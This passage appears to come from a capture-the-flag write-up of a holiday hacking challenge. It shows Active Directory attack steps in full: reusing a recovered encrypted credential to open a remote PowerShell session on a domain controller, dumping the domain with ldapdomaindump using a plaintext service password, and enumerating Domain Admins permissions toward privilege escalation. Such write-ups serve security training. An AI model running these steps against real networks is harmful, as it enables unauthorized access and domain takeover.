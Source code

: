Using these exact credentials, we can try to Remote PowerShell into the Domain Controller (10.128.1.53)

```
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Enter-PSSession -ComputerName 10.128.1.53 -Credential $aCred -Authentication Negotiate
```

Now we have direct powershell access to that machine, and we have to try to insert our user (the one we created!) to a particular domain group, so that we can access Santa's secret sleigh document.  

##  ldapdomaindump

To get a better understanding of the global situation, we used [**ldapdomaindump**](https://github.com/dirkjanm/ldapdomaindump), a tool that gives us a lot of informations about the Active Directory we are interested in using LDAP. We used *elfu_svc* account. It is already installed on the remote Linux installation.
```
$ldapdomaindump  -u elfu.local\\elfu_svc -p Snow2021! 10.128.1.53
```
This outputs a series of files. We grabbed the .html files and opened them on our computers.  
You can get a sample of them here: [ch8_domain_users.html](./files/ch8_domain_users.html), [ch8_domain_groups.html](./files/ch8_domain_groups.html), [ch8_domain_computers.html](./files/ch8_domain_computers.html)

![(LDAPDomainDump output)](images/ADDumpFiles.png)

In **domain_groups.html** we can see some groups that may be useful to us, like *Domain Admins* and *Research Department*. Let's see what we can do to them. We could use one of the [scripts](https://github.com/chrisjd20/hhc21_powershell_snippets/blob/main/README.md) provided to us by Chris Davis in his [talk](https://www.youtube.com/watch?v=iMh8FTzepU4).  
You could use the first script in the page, changing some values to match with our environment.
```{attention}
You have to run this in powershell! To enter it, just use the command "powershell".
```
```
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```
This list all users/groups who have some permissions regarding that specific object. In this case that is the **Domain Admins** group.  
Unfortunately, there is nothing interesting in here. 
All users we have compromised have not got any special permission in this group.
